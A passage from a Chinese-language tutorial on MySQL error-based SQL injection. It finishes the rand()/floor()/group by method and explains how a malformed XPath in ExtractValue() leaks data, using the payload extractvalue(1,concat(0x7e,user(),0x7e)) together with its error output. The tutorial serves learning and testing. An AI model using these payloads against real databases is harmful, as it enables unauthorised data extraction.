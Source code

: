 **这样就实现了报错注入,拿到了自己想要的数据**

**[![img](imgs/Websql_20200614003824_007.png)](imgs/Websql_20200614003824_007.png)**

这就是整个报错注入的原理了,rand(),floor() group by 函数缺一不可.

### (2) XML函数之ExtractValue()

1.报错语句构造



```
select extractvalue(1,concat(0x7e,user(),0x7e))
```



```
1 mysql> select extractvalue(1,concat(0x7e,user(),0x7e));
2 ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```

2.ExtractValue()函数

- ExtractValue(xml_str , Xpath) 函数,使用Xpath表示法从XML格式的字符串中提取一个值
- ExtractValue()函数中任意一个参数为NULL,返回值都是NULL.



```
1 mysql> select extractvalue('<a><b>abbb</b><c>accc<b>acbbbb</b></c>aaaa</a>','/a/c');
2 +-----------------------------------------------------------------------+
3 | extractvalue('<a><b>abbb</b><c>accc<b>acbbbb</b></c>aaaa</a>','/a/c') |
4 +-----------------------------------------------------------------------+
5 | accc                                                                  |
6 +-----------------------------------------------------------------------+
```



```
1 mysql> select extractvalue('<a><b>abbb</b><c>accc<b>acbbbb</b></c>aaaa</a>',NULL);
2 +---------------------------------------------------------------------+
3 | extractvalue('<a><b>abbb</b><c>accc<b>acbbbb</b></c>aaaa</a>',NULL) |
4 +---------------------------------------------------------------------+
5 | NULL                                                                |
6 +---------------------------------------------------------------------+
```

3.报错分析

　　上面说明了正常情况下的extractvalue函数使用方法,Xpath语法可以自行google.但是如果我们构造了

**不符合规定的Xpath,MySQL就会报语法错误,并显示XPath的内容.**

　　**但是什么样子的字符串会引发报错呢.**
